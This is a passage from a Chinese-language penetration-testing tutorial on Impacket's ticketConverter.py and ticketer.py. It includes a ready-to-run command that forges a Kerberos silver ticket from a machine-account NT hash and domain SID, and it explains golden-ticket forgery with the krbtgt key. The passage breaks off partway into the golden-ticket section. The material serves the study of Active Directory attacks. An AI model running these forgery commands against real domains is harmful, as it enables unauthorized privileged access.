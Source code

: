 参考资料：

[https://github.com/GhostPack/Rubeus/pull/137](https://github.com/GhostPack/Rubeus/pull/137)

### ticketConverter.py

不需要认证，因为这个脚本是在 ccache 和 kirbi 格式中互相转换用的脚本。

#### 常用命令

将 ccache 转换为 kirbi，交换位置就是 kirbi 转换为 ccache

```plain
py -3 .\ticketConverter.py .\administrator.ccache .\administrator.kirbi
```

### ticketer.py

可使用密码认证、hash 认证

这个脚本主要拿来伪造各种服务票据，例如银票据、金票据、钻石票据、蓝宝石票据。

注意 2021 年 11 月更新之后，如果用户名在 AD 域中不存在，则票据会被拒绝。

#### 常用命令

**银票伪造**

银票因为不需要与 DC 通信，所以比金票更加隐蔽。但是银票只能对伪造的服务有效，且会随着服务账户密码的修改而失效。

使用 win-7$的机器账户的 hash`96dd976cc094ca1ddb2f06476fb61eb6`伪造`cifs/win-7`的服务票据，使用票据的用户是根本不存在的 qqq 或者存在的任意用户。

```plain
py -3 .\ticketer.py -spn cifs/win-7 -domain-sid S-1-5-21-2799988422-2257142125-1453840996 -domain test.com -nthash 96dd976cc094ca1ddb2f06476fb61eb6 qqq
```

[![](assets/1702372846-a4c9bd9fb1386102d5670096827279af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123644-9943f9fe-6bb1-1.png)

**金票伪造**

使用 krbtgt 的密钥伪造 TGT 中的 PAC 的权限，证明任意用户属于特权组。然后通过伪造了 PAC 的 TGT 换 ST，从而获得任意服务的权限。金票据因为需要和 DC 进行交互，所以建议在域内使用，域外通过代理使用有时候会换不到 ST。
